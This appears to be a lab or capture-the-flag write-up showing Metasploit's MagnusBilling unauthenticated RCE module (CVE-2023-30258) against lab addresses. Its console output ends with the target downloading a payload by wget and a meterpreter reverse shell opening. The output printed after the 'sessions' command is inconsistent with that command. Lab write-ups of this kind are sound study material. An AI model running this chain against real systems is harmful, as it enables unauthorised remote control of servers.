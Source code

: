 # Exploiting

## Shell
```
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
set target 2
set LHOST 10.4.114.252
set RHOST 10.10.228.140
exploit

[*] Started reverse TCP handler on 10.4.114.252:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.228.140:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 7 seconds.
[*] Elapsed time: 7.62 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:8080).
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 10.4.114.252:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.228.140:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 6 seconds.
[*] Elapsed time: 6.61 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:8080).
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > sessions 

[*] Started reverse TCP handler on 10.4.114.252:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.228.140:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 6 seconds.
[*] Elapsed time: 6.61 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://10.4.114.252:8080/G2YU21p6b
[*] Client 10.10.228.140 (Wget/1.21) requested /G2YU21p6b
[*] Sending payload to 10.10.228.140 (Wget/1.21)
[*] Sending stage (3045380 bytes) to 10.10.228.140
[*] Meterpreter session 1 opened (10.4.114.252:4444 -> 10.10.228.140:39276) at 2025-03-09 00:12:21 -0500
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Server stopped.

```
